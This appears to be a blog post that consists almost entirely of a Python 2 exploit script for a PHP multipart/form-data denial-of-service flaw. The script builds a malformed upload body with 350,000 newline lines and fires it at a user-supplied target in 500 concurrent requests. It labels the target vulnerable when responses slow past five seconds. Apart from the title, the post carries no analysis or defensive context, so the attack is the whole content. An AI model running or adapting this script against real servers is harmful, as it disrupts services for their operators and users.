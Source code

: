 ```yaml
---
layout: post
title: PHP multipart/form-data Remote DOS Vulnerability
---
```

	#!/usr/bin/env python
	# coding : utf8
	# author : evi1m0@2015
	# website: www.n0tr00t.com
	
	import sys
	import datetime
	import requests
	
	import gevent
	import gevent.monkey
	gevent.monkey.patch_socket()
	
	
	def check_vulnerability(target, body, headers):
	    starttime = datetime.datetime.now()
	    try:
	        request = requests.post(target, body, headers=headers)
	    except Exception, e:
	        print '[-] Request Error: ' + str(e)
	    endtime = datetime.datetime.now()
	    usetime = (endtime - starttime).seconds
	    if usetime > 5:
	        result = '[+] {url} is vulnerability'.format(url=target)
	    else:
	        result = '[-] Failed'
	    return result, usetime
	
	
	def main(i, target):
	    headers = {'Content-Type': ('multipart/form-data; boundary=----WebKit'
	                                'FormBoundaryX3B7rDMPcQlzmJE1'),
	               'Accept-Encoding':'gzip, deflate',
	               'User-Agent': ('Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:'
	                              '24.0) Gecko/20100101 Firefox/24.0')}
	    body = ("------WebKitFormBoundaryX3B7rDMPcQlzmJE1\nContent-Disposition"
	            ": form-data; name=\"file\"; filename=1.jpg")
	    body = body + 'a\n' * 350000
	    body = body + ('Content-Type: application/octet-stream\r\n\r\ndatadata'
	                   '\r\n------WebKitFormBoundaryX3B7rDMPcQlzmJE1--')
	    result, usetime = check_vulnerability(target, body, headers)
	    print '[%s] Checking...' % str(i)
	    print result
	    print '[*] Response time: %s' %  str(usetime)
	    return result, usetime
	
	
	if __name__ == '__main__':
	    if len(sys.argv) <= 1:
	        print '[-] Usage: script.py target'
	        sys.exit()
	    if not sys.argv[1].startswith('http'):
	        target = 'http://{}'.format(sys.argv[1])
	    else:
	        target = sys.argv[1]
	    i, jobs  = 0, []
	    for i in range(0, 500):
	        jobs.append(gevent.spawn(main, i, target))
	    gevent.joinall(jobs)